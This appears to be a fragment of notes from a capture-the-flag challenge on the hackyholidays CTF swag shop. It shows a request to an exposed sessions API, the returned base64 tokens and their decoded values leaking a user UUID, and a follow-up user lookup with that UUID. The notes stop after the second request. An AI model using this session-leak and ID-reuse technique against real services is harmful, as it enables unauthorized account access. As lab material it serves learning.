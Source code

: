 ``` 


```
REQUEST1
https://hackyholidays.h1ctf.com/swag-shop/api/sessions

RESPONSE1

{"sessions":["eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=","eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="]}

DECODED

{"user":null,"cookie":"YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMzg1MWJkZDcyMzY0ZTFlYjdmNDY3NDkzNzIwMGNiZjNhMjQ3Y2RmY2E2N2FmMzdjM2I0ZWNlZTVkM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="}","{"user":null,"cookie":"ZjM2MzNjM2JkZGUyMzVmMmY2ZjcxNjdlNDNmZjQwZTlmY2RhNjYxNWM5Y2Y1ZjY2ODU3NjkxMTQ2Nzk0ZmIxOWZhN2ZhZjg0Y2E5Nzk1NTQ2MzMzZTc0MWJlMzVhZDA0MDUwYmQ3NDlmZTE4MmNkMjMxMzU0MWRlMTJhNWYzOGQ="}","{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}","{"user":null,"cookie":"MDRmYTBhN2FiNjY5MGFlOWFmYTE4ZjE2N2JjZmYzZWJkOTRlOGYwMjI1OGIyNjM1ODU0Njc2YTdlZTM4MzFiM2I1MTUzMzViMjFhYzVkMTc4ODE3OGM4Y2JlOTk4MjJlMDI2YjQzZDQxMGNmNTg1ODQxZjBmODBmZWQxZmE1YmE="}","{"user":null,"cookie":"M2Q2MDIzNDg5MWE0N2M3NDJmNTIyNGM3NWUxYWQ0NDRlZWI3MTg4MjI3ZGRkMTllZTM2ZDkxMGVlNWEwNmZiZWFkZjZhODg4MDY3ODlmZGRhYTM1Y2IyMGVhMjA1NjdiNDFjYzBhMWQ4NDU1MDc4NDE1YmI5YTJjODBkMjFmN2Y="}","{"user":null,"cookie":"MWY3MTAzMTBjZGY4ZGMwYjI3Zjk2ZmYzMWJlMWEyZTg1YzE0MmZlZjMwYmJjZmQ4ZTU0Y2YxYzVmZTM1N2Q1ODY2YjFkZmFiNmI5ZjI1M2M2MDViNjA0ZjFjNDVkNTQ4N2U2ODdiNTJlMmFiMTExODA4MjU2MzkxZWNhNjFkNmU="}","{"user":null,"cookie":"MDM4YzhiN2Q3MmY0YjU2M2FkZmFlNDMwMTI5MjEyODhlNGFkMmI5OTcyMDlkNTJhZTc4YjUxZjIzN2Q4NmRjNjg2NmU1MzVlOWEzOTE5NWYyOTcwNmJlZDIyNDgyMTA5ZDA1OTliMTYyNDczNjFkZmU0MTgxYWEwMDU1ZWNhNzQ="}","{"user":null,"cookie":"OGI3N2ExOGVjNzM1ZWVmNTk2ZjNkZjIwM2ZjYzdjMWNhODg4NDhhODRmNjI0NDRjZTdlZTg0ZTUwNzZmZDdkYTJjN2IyODY5YjcxZmI5ZGRiYTgzZjhiZDViOWZjMTVlZDgzMTBkNzNmODI0OTM5ZDM3Y2JjZmY4NzEyOGE3NTM="}

REQUEST2
https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043
